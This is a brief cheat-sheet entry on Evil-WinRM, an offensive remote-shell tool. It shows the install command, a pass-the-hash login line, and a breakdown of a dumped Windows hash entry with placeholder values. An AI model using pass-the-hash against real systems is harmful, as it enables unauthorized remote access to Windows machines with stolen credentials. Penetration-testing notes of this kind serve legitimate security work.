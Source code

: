 # Evil-WinRM

### Installation.
```
sudo gem install evil-winrm
```

### Basic usage.
```
evil-winrm -i <IP> -u <Target Username> -H <NT Hash>
```
Example:
Fred:500:a1a1a1a1a1a1a1a1a1a1a1a1a1a1a1a1:b2b2b2b2b2b2b2b2b2b2b2b2b2b2b2b2:::
 * Fred is the user
 * 500 is a relatice identifier (i.e. Administrator)
 * a1a1a1 is the LM hash
 * b2b2b2 is the NT hash
